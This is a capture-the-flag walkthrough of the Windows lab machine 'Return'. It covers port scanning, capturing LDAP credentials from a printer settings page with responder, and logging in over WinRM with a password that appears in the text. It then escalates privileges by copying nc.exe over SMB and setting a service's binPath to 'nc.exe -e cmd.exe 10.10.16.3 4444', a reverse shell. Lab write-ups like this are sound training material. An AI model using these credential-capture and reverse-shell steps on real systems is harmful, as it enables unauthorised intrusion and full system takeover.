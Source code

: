 ```yaml
---
title: Return
published: true
layout: post
---
```


<br />

---------------
Return is an easy difficulty Windows machine featuring a network printer administration panel that stores LDAP credentials. These credentials can be captured by inputting a malicious LDAP server which allows obtaining foothold on the server through the WinRM service. User found to be part of a privilege group which further exploited to gain system access.

<br />

<iframe style="aspect-ratio: 16 / 9; width: 65%; display: block; margin: auto;" src="https://www.youtube.com/embed/EhujDTRGNxM?si=BirmWMiYfr5yGWwD" title="YouTube video player" frameborder="0" allow="accelerometer; autoplay; clipboard-write; encrypted-media; gyroscope; picture-in-picture; web-share" referrerpolicy="strict-origin-when-cross-origin" allowfullscreen></iframe>

<br />

---------------------------------------------------

<br />

## Walkthrough

### Reconnaissance

We will start by **scanning protocolos** in the target machine, this can be divided in 3 phases:
1. Scan for **open ports**.
2. Scan for **services** in these open ports.
3. Scan for **vulnerabilities** in these services.

<br />
Let's start by scanning for **open ports**:

```bash
sudo nmap -sS 10.10.11.108 -p- -T4 --min-rate 5000 -oN all_tcp_ports.txt --open -n -Pn
sudo nmap -sU 10.10.11.108 -p- -T4 --min-rate 5000 -oN all_udp_ports.txt --open -n -Pn
```

![](/assets/Return/1.png)
<br />
![](/assets/Return/2.png)
<br />
<br />
<br />

There are **19 relevant open ports**:
+ **53/tcp**
+ **80/tcp**
+ **88/tcp**
+ **135/tcp**
+ **139/tcp**
+ **389/tcp**
+ **445/tcp**
+ **464/tcp**
+ **593/tcp**
+ **636/tcp**
+ **3268/tcp**
+ **3269/tcp**
+ **5985/tcp**
+ **9389/tcp**
+ **47001/tcp**
+ **53/udp**
+ **88/udp**
+ **123/udp**
+ **389/udp**

<br />

Let's check which **services** are running in this port:

```bash
sudo nmap -sS 10.10.11.108 -p 53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001 -T4 --min-rate 5000 -oX open_tcp_ports.xml -oN open_tcp_ports.txt --version-all -n -Pn -A
sudo nmap -sU 10.10.11.108 -p 53,88,123,389 -T4 --min-rate 5000 -oX open_udp_ports.xml -oN open_udp_ports.txt --version-all -n -Pn -A
```

![](/assets/Return/3.png)
<br />
![](/assets/Return/4.png)
<br />
<br />
<br />

We can see that the service corresponds to:
+ **53/tcp domain**
+ **80/tcp Microsoft IIS httpd 10.0**
+ **88/tcp Microsoft Windows Kerberos**
+ **135/tcp Microsoft Windows RPC**
+ **139/tcp Microsoft Windows netbios-ssn**
+ **389/tcp Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)**
+ **445/tcp Microsoft Windows Server 2008 R2 - 2021 microsoft-ds**
+ **464/tcp kpasswd5?**
+ **593/tcp Microsoft Windows RPC over HTTP 1.0**
+ **636/tcp tcpwrapped**
+ **3268/tcp Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)**
+ **3269/tcp tcpwrapped**
+ **5985/tcp Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)**
+ **9389/tcp .NET Message Framing**
+ **47001/tcp Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)**
+ **53/udp domain**
+ **88/udp Microsoft Windows Kerberos**
+ **123/udp NTP V3**
+ **389/udp Microsoft Windows Active Directory LDAP (Domain: return.local0., Site: Default-First-Site-Name)**

<br />

Now we will seek for **vulnerabilities**:

```bash
sudo nmap -sS 10.10.11.108 -p 53,80,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001 -T4 --min-rate 5000 --script="vuln or intrusive or discovery" -oN tcp_vulns.txt -oX tcp_vulns.xml -n -Pn
sudo nmap -sU 10.10.11.108 -p 53,88,123,389 -T4 --min-rate 5000 --script="vuln or intrusive or discovery" -oN udp_vulns.txt -oX udp_vulns.xml -n -Pn
```
<br />

This scan didn't return any relevant information.

<br />

------

<br />
### Foothold

This machine has a lot of ports, so testing for vulnerabilities in each port might take a while, so I will go straight to the point.

<br />

In the website, we have a **settings page** which seems to **update domain credentials**, however when we use it, nothing happens. So let's intercept the request with **BurpSuite**:
<br />
![](/assets/Return/5.png)
<br />
<br />
<br />

This is the request, it seems that it **sending the credentials to itself**, we can try to capture this request with **responder**, as it's sending LDAP credential:

```bash
sudo responder -I tun0
```

![](/assets/Return/6.png)
<br />
![](/assets/Return/7.png)
<br />
<br />
<br />

Now that we have credentials, let's **login using Evil-Winrm**:

```bash
evil-winrm -i 10.10.11.108 -u 'svc-printer' -p '1edFg43012!!'
```

![](/assets/Return/8.png)
<br />
<br />
<br />

------

<br />
### Privilege Escalation

This is the first Windows machine in which we have to actually escalate privilege, however is quite easy.

<br/>

Let's start by displaying our privileges and group ownerships:

```bash
whoami /all
```

![](/assets/Return/9.png)
<br />
<br />
<br />

We are members of **Server Operators**, which is a sensitive group as it allows us to modify services, so let's check for a privileged service:

```bash
services
```

![](/assets/Return/10.png)
<br />
<br />
<br />

There are a few, so let's **transfer nc.exe to this machine and make one service to execute it**:

```bash
Kali> impacket-smbserver test . -smb2support -username kali -password kali
Windows> net use m: \\10.10.16.3\test /user:kali kali
Windows> copy m:\nc.exe .
Windows> sc.exe config VMTools binPath="C:\Users\svc-printer\Documents\nc.exe -e cmd.exe 10.10.16.3 4444"
Kali> rlwrap nc -nlvp 4444
Windows> sc.exe stop VMTools
Windows> sc.exe start VMTools
```

![](/assets/Return/11.png)
<br />
<br />
<br />

